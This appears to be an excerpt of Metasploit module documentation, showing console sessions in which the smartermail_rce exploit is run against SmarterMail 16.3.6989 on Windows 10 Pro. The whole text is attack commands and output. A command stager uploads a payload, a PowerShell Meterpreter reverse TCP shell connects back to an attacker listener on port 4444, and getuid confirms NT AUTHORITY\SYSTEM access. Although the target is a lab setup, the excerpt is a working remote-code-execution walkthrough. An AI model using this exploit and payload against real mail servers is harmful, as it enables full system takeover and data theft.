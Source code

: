 ```
[*] Command Stager progress -  74.30% done (75702/101881 bytes)
[*] Command Stager progress -  76.31% done (77748/101881 bytes)
[*] Command Stager progress -  78.32% done (79794/101881 bytes)
[*] Command Stager progress -  80.33% done (81840/101881 bytes)
[*] Command Stager progress -  82.34% done (83886/101881 bytes)
[*] Command Stager progress -  84.35% done (85932/101881 bytes)
[*] Command Stager progress -  86.35% done (87978/101881 bytes)
[*] Command Stager progress -  88.36% done (90024/101881 bytes)
[*] Command Stager progress -  90.37% done (92070/101881 bytes)
[*] Command Stager progress -  92.38% done (94116/101881 bytes)
[*] Command Stager progress -  94.39% done (96162/101881 bytes)
[*] Command Stager progress -  96.39% done (98208/101881 bytes)
[*] Command Stager progress -  98.40% done (100252/101881 bytes)
[*] Command Stager progress - 100.00% done (101881/101881 bytes)
[*] Sending stage (175686 bytes) to 192.168.245.1
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 192.168.245.1:55099) at 2023-07-06 05:43:26 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-50BU5J8
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```

### SmarterMail Version 16.3.6989 on Windows 10 Pro

* Using ENDPOINT `Mail`:

```
msf > use exploit/windows/http/smartermail_rce
[*] Using configured payload cmd/windows/powershell/meterpreter/reverse_tcp
msf exploit(windows/http/smartermail_rce) > set ENDPOINT Mail
ENDPOINT => Mail
msf exploit(windows/http/smartermail_rce) > set RHOSTS 192.168.29.1
RHOSTS => 192.168.29.1
msf exploit(windows/http/smartermail_rce) > set LHOST eth0
LHOST => eth0
msf exploit(windows/http/smartermail_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response...
[+] Target is running SmarterMail.
[*] Checking SmarterMail product build...
[!] Product build not found. 16.x versions and below do not have a build number.
[*] Checking SmarterMail product version...
[+] Target is running SmarterMail Version 16.3.6989.
[+] The target appears to be vulnerable.
[*] Sending stage (175686 bytes) to 192.168.245.1
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 192.168.245.1:55147) at 2023-07-06 06:20:19 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-50BU5J8
OS              : Windows 10 (10.0 Build 19045).
```